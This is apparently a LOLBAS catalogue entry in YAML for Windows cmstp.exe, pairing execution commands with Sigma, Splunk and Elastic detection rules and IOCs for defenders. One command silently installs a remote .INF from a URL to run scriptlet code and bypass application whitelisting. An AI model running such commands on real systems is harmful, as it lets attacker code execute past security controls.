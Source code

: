 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: INF
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: INF
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_cmstp_execution_by_creation.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_uac_bypass_cmstp.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/cmlua_or_cmstplua_uac_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - IOC: Execution of cmstp.exe without a VPN use case is suspicious
  - IOC: DotNet CLR libraries loaded into cmstp.exe
  - IOC: DotNet CLR Usage Log - cmstp.exe.log
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

